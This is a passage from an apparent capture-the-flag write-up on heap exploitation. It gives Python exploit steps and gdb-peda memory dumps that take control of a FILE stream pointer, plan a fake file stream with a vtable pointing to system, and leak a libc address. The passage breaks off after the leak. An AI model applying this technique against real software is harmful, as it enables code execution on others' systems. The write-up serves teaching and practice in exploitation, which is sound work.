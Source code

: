```python
# 0
alloc(0x108, 0,  'A'*8) 
# 1
alloc(0x158,  1, 'B'*8)
# 2
alloc(0x80,  2, 'C'*8)	
# 3
alloc(0xa8,  3, 'D'*8)
# Trigger malloc
Open()
``` 

```
gdb-peda$ parse
addr                prev      size      status            fd                bk                
0x804b000           0x0       0x110      Used                None              None
0x804b110           0x0       0x160      Used                None              None
0x804b270           0x0       0x88       Used                None              None
0x804b2f8           0x0       0xb0       Used                None              None
0x804b3a8           0x0       0x160      Used                None              None

gdb-peda$ x/wx &file
0x804a100 <file>:	0x0804b3b0
```

Now once we call `edit`, the contents of `file` will become `0x0804b300`, which is exactly where our input is at.

```
gdb-peda$ x/10wx 0x804b2f8
0x804b2f8:	0x00000000	0x000000b1	0x44444444	0x44444444
0x804b308:	0x0000000a	0x00000000	0x00000000	0x00000000
0x804b318:	0x00000000	0x00000000

gdb-peda$ x/s 0x804b300
0x804b300:	"DDDDDDDD\n"
```

Sweet, we officially have control over the file stream. We can now craft a fake `/dev/null` file stream at `0x804b300` with a 
vtable of our choice and place `system` there. But, `system` isn't resolved yet. We have yet to perform a libc leak. It's about
time don't you think?

```python
free(1)
# Enter just enough to leak the main arena pointer
alloc(0x158,  1, 'E'*3)

libc   = leak(1) - 0x1b27b0
```

```
gdb-peda$ x/10wx 0x804b110
0x804b110:	0x00000000	0x00000161	0x0a454545	0xf7fc37b0 <-- main arena pointer
0x804b120:	0x0000000a	0x00000000	0x00000000	0x00000000
```
